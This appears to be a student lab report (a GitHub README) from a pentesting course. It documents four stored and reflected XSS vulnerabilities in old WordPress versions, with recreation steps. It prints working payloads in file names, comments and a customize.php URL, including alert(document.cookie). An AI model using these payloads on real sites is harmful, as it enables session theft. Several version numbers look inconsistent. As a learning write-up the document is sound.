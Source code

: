 # Project 7 - WordPress Pentesting

Time spent: **4** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Challenge 7: wpscan vs. WP 4.2
  - [ ] Summary: 
    - Vulnerability types: XXS
    - Tested in version: 4.2
    - Fixed in version: 4.2.10
  - [ ] GIF Walkthrough: https://gfycat.com/gifs/detail/WetMixedAurochs
  - [ ] Steps to recreate: 
            1. Rename an image file with the following img src= a onerror= alert(document.cookie) .jpg
            2. Create a post, upload, and publish 
            3. Change the attachment display setting to "Attachment page"
            4. A javascript alert will now appear
  - [ ] Affected source code:
    - https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html
    
2. (Required) Vulnerability 1
  - [ ] Summary: 
    - Vulnerability types: XXS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://gfycat.com/gifs/detail/UnnaturalNastyBluebottlejellyfish
  - [ ] Steps to recreate: 
            1. Access your wordpress and in the comments leave the html tag; <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAA...[64k]...AA'></a>
            2. When you move your mouse a javascript alert will appear
  - [ ] Affected source code:
    - https://klikki.fi/adv/wordpress2.html
    
    
3. (Required) Vulnerability 2
  - [ ] Summary: 
    - Vulnerability types: XXS
    - Tested in version: 3.7 - 4.4
    - Fixed in version: 4.2.6
  - [ ] GIF Walkthrough: https://gfycat.com/gifs/detail/CelebratedFalseIggypops
  - [ ] Steps to recreate: 
            1. Using the url: http://www.exmaple.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
            2. Replace the "example.com" with the wordpress site
            3. It will bypass and display a javascript alert
  - [ ] Affected source code:
    - https://wpvulndb.com/vulnerabilities/8358
    
 4. (Required) Vulnerability 4
  - [ ] Summary: 
    - Vulnerability types: XXs
    - Tested in version: 3.3 - 4.7.4
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: https://gfycat.com/gifs/detail/CelebratedFalseIggypops
  - [ ] Steps to recreate: 
            1. Get a file thats over 20mb and rename it Dinosaurs secret life img src=x onerror=alert(1)>.png
            2. Create a media and attempt to upload
            3. The file size is exceed and a javascript alert appears
  - [ ] Affected source code:
    - https://hackerone.com/reports/203515

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

